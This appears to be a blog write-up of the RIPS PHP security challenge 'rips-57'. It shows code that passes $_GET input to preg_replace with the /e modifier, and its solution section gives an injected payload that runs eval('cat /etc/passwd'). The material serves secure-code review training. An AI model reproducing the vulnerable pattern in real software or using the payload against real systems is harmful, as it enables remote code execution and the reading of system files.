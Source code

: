 ```yaml
---

title: rips-57
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1162396599416324100" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
    return preg_replace(
        '/(' . $regex . ')/ei',
        'strtolower("\\1")',
        $value
    );
}

foreach($_GET as $regex => $value) {
    echo complexStrtolower($regex, $value) . "\n";
}

{{< /code >}}

# Solution
{{< code language="php" highlight="6,8,15" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
    return preg_replace(
		// 2) regex modifier 'e' is used for evaluation
        '/(' . $regex . ')/ei',
		// 3) php funciton is called with back reference, code exec here
        'strtolower("\\1")',
        $value
    );
}

foreach($_GET as $regex => $value) {
	// 1) $regex and $value = user input
    echo complexStrtolower($regex, $value) . "\n";
}

// example:
echo complexStrtolower('.*', 'a");eval(\'cat /etc/passwd\');//');
// the second parameter of preg_replace will become: 
//    strtolower("a");eval('cat /etc/passwd');//")strtolower("")
// the 'e' modifier is deprecated anyway...


{{< /code >}}
